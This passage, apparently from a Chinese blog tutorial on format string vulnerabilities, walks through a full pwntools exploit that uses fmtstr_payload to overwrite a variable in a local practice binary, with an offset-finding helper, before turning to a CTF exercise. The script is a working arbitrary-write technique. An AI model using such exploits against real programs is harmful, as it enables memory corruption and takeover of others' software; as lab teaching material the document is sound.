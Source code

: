 `fmtstr_payload`函数则更厉害了，可以直接帮我们构造出任意地址内存覆盖的Payload，还是上面的题目，我们让程序进入分支3,修改b变量为:`0x12345678`

完整EXP如下：

    #导入pwn模块
    from pwn import *
    #设置运行环境
    context(arch='i386',os='linux')
    context.terminal = ['tmux','splitw','-h']
    elf = ELF("./overflow")
    #gdb.attach(p,"b printf")
    
    
    '''
    测试函数，用来获取`格式字符串`在printf函数里参数的顺序 (如果不想偷懒可用gdb确定)
    '''
    def exec_fmt(payload):
        p   = process("./overflow")
        p.recvuntil('\n',drop=True)
        p.sendline(payload)
        return p.recv()
        #[*] Found format string offset: 6
    
    '''
    exp
    '''
    def exp():
        #封装进程,ELF解析
        p   = process("./overflow")
        #获取变量地址
        a_address  = elf.symbols['a']
        b_address  = elf.symbols['b']
        c_address = int(p.recvuntil('\n',drop=True),16)
        log,info("var a: %s" % hex(a_address))
        log,info("var b: %s" % hex(b_address))
        log,info("var c: %s" % hex(c_address))
        #构造Payload
        Payload = fmtstr_payload(6,{b_address: 0x12345678})
        log,info("Payload: %s" % Payload)
        #发送Payload
        p.sendline(Payload)
        #回显
        print(p.recv())
    
    #main
    if __name__ == '__main__':
        exp()
    

![image-20220624153911106](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220624153911505-284161016.png)

可以看到我们的exp相比之前覆盖大数的exp要清晰很多，不用手动去构造Payload了，一句py代码搞定。

接下来做个CTF题目实战实战。
